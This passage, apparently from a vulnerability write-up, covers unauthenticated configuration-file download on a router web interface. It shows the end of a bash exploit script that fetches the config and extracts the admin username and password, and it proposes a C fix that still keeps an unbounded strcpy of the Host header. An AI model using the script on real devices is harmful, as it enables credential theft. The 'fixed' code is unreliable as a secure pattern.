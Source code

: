 ```
echo "[+] File Requested"
echo "$response_body" >> $file_name
echo "[+] File saved to $file_name"
echo "[*] Username and Password:"
echo "$response_body" | strings | sed -n '6,7p' | sed 's/\!//g'
fi
```

Basically, Our script will take a target as an argument and then send the creation request of the configuration file, After that it will take the value of `Location` header to `location_header` and save it to `new_url`. The, Cut the url in the `Location` header which is the configuration file url and take the file name & save it to `file_name` variable, Finally, It sends the request to the file url and save it to the file name on the disk and filter out the username and password. Now, It's the time to use it:

![](/assets/images/418336f26d58b248154a6f1ab2abb122)

# **Final Thoughts**

The developer shall always check for the user session before performing any kinds of request and if the user's session is valid or no, Another thing is to delete the configuration file from the web directory as it will be open for anyone to download it. So, the final code can be as the following:

```
  Host = (char *)websGetVar(param_2,"http_host","");
  if (*Host == '\0') {
    getLanIp(&deviceIP);
  }
  else {
    strcpy((char *)&deviceIP,Host);
  }
  
  snprintf(reqResponse,0x1000,"{\"httpStatus\":\"%s\",\"host\":\"%s\"","302",(char *)&deviceIP);
  sVar1 = strlen(reqResponse);
  apmib_get(0x4655,&local_a8);
  apmib_get(0x1bbe,&local_38);
if (userSession){  
    __s = fopen("/web_cste/config.dat","ab");
      if (__s == (FILE *)0x0) {
        perror("fopen");
        uVar2 = 0;
      }
      else {
        fwrite(&DAT_0001dc0c,1,1,__s);
        __size = strlen((char *)&local_38);
        fwrite(&local_38,__size,1,__s);
        fclose(__s);
        getCmdStr("date  \'+%Y%m%d\'",&local_88,0x10);
        sprintf(acStack_78,"cp /web_cste/config.dat /web_cste/Config-%s-%s.dat",(char *)&local_a8,
                (char *)&local_88);
        system(acStack_78);
        snprintf(reqResponse + sVar1,0x1000 - sVar1,",\"redirectURL\":\"http://%s/Config-%s-%s.dat\"}",
                 (char *)&deviceIP,(char *)&local_a8,(char *)&local_88);
        uVar2 = websGetCfgResponse(param_1,param_3,reqResponse);
      }
  return uVar2;
} else {
    exit(1);
 }
}
```
